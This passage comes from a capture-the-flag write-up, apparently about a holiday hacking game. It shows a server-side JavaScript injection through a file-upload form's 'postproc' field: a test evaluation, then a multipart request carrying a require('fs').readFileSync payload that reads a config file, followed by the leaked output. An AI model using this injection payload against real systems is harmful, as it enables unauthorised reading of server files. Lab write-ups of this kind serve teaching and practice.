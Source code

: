 where "postproc("timestamp", file)" is what we are evaluating. Chaining that to "5"

gets us the following post process result

{% highlight bash %}
Files

Upload successful.

Executing post process...

Post process result: 5

File pending Nedfords approval.
{% endhighlight %}

This proves that we are able to perform a SSJS attack. 

We will need to do a file read to obtain the files we need in our SSJS. The Black Hat article that Tim had [mentioned](https://media.blackhat.com/bh-us-11/Sullivan/BH_US_11_Sullivan_Server_Side_WP.pdf) in our conversation in the game shows us we can do a file read with 

{% highlight bash %}
require('fs').readFileSync(filename))
{% endhighlight %}

Performing this on our web app with the following post (cut for brievity) 

{% highlight bash %}
Content-Disposition: form-data; name="postproc"
require('fs').readFileSync('/gnome/www/files/gnome.conf') 
-----------------------------5105300981258675044790149721
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png
{% endhighlight %}

gives us what we need!

{% highlight bash %}
Post process result: 
Gnome Serial Number: BU22_1729_2716057 
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg 
Allow new subordinates?: YES 
Camera monitoring?: YES 
Audio monitoring?: YES 
Camera update rate: 60min 
Gnome mode: SuperGnome 
Gnome name: SG-04 
Allow file uploads?: YES 
Allowed file formats: .png 
Allowed file size: 512kb 
Files directory: /gnome/www/files/ 
{% endhighlight %}

**Serial: BU22_1729_2716057**

This serial is the unit number for [Bender](https://en.wikipedia.org/wiki/Bender_(Futurama)), Bending Unit 22, Unit 1729-2716057!
